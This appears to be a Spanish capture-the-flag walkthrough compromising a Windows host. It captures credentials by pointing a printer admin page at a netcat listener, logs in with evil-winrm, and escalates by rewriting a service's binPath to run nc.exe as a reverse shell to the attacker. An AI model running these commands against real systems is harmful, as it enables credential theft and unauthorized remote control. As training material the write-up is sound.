 https://www.youtube.com/watch?v=5QC5lshrDDo
# Fase de reconocimiento
Windows
Puertos abiertos: 
80
445 SMB
5985 WinRemoteManagament
## SMB
```
crackmapexec smb <ip>
```
Listar recursos compartidos
```
smbclient -L <ip> -N
```
# Fase de ataque
## Web
En la web encontramos una administración de impresora
![[Pasted image 20240512185134.png]]
Cambiamos la address por una nuestra
Nos ponemos en escucha 
```
nc -nlvp 389
```
![[Pasted image 20240512185232.png]]
Nos reporta el usuario y contraseña
Comprobamos que sean validos:
```
crackmapexec smb <ip> -u '<user>' -p '<passwd>'
```
Comprobamos que este en el grupo de winrm para conectarse
```
crackmapexec winrm <ip> -u '<user>' -p '<passwd>'
```
Nos conectamos
```
evil-winrm -i <ip> -u '<user>' -p '<passwd>'
```
[-] ==pwned!==
# Privilege Escalation
Ver privilegios
```
whoami /priv
```
Ver en que grupo estamos
```
net user <user>
```
Podemos correr y parar servicios
```
services
```
## Modificar servicio
1. Nos copiamos el nc.exe a la maquina victima
```
uplaod <ruta nc.exe>
```
![[Pasted image 20240512190603.png]]
2. Modificamos el servicio
```
sc.exe config <nombre> binPath="<ruta nc.exe> -e cmd <ipa> 443"
```
![[Pasted image 20240512190905.png]]
3. Nos ponemos en escucha
```
nc -nlvp 443
```
4. Paramos y arrancamos el servico
```
sc.exe stop <nombre>
```
```
sc.exe start <nombre>
```
[+] ==pwned!==

